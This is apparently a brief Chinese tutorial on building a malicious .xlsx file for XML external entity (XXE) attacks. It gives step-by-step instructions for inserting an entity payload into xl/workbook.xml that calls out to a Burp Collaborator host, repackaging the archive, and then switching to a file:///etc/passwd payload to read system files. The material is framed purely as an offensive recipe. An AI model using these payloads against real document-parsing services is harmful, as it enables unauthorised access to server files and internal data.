   
[利用Excle打XXE](https://mp.weixin.qq.com/s?__biz=Mzg2NjUzNzg4Ng==&mid=2247484217&idx=1&sn=e5e7bfcf375c5534d28a4cdbc47dee79&scene=21#wechat_redirect)  
  
  
  
[https://mp.weixin.qq.com/s/kbLLEfdHHOXbuPor-vVPkw](https://mp.weixin.qq.com/s?__biz=Mzk0Mzc1MTI2Nw==&mid=2247487116&idx=1&sn=3ddebcdd42fc972bb4516d9bedb2e392&scene=21#wechat_redirect)  
  
  
  
创建  
XlSX  
利用压缩软件打开在,解压到桌面 在  
xl/workbook.xml  
路径下打开文件加入  
Payload  
,以下内容插入第2行和第3行，  
SYSTEM  
后面自己添加相对应的  
dns  
记录均可，可以是  
BP  
可以是  
DNS.log  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK5fBBgVv8icyHd3v4ibjx85n5gcdfiaAMJx3wmTZ8sdxEVhQsHZsCZfyWCVYHDeW3wmGlnVlYiaObP3Sg/640?wx_fmt=png&from=appmsg "")  
  
```
<!DOCTYPE x [ <!ENTITY xxe SYSTEM "http://bq5z980jwrrniaf9ox35q5fyppvgj5.burpcollaborator.net/"> ]>
<x>&xxe;</x>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK5fBBgVv8icyHd3v4ibjx85n5DxffelkECPmh7yicbR0uAp3vFS3icAGLzettFIt1RcibPvNZDDrPrn3pQ/640?wx_fmt=png&from=appmsg "")  
  
  
加入  
Paylaod  
保存是现在是文件夹的形式  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK5fBBgVv8icyHd3v4ibjx85n5vWG2RmiaxskIm6GuwROslXicAlBKWeXlgia8p14ibTeEjprW0VkOYonKDw/640?wx_fmt=png&from=appmsg "")  
  
  
压缩为  
zip  
然后手动改后缀为  
xlsx  
,是两步 然后就弄好了恶意文件,切换地址就行了  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK5fBBgVv8icyHd3v4ibjx85n5O4c1hwmFiaDMXlrySU5BvGhSvh4qu4qxl09eyneCfpFIuKGKrXEibtxw/640?wx_fmt=png&from=appmsg "")  
  
  
有回显切换伪协议读取文件  
  
```
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>s
```  
  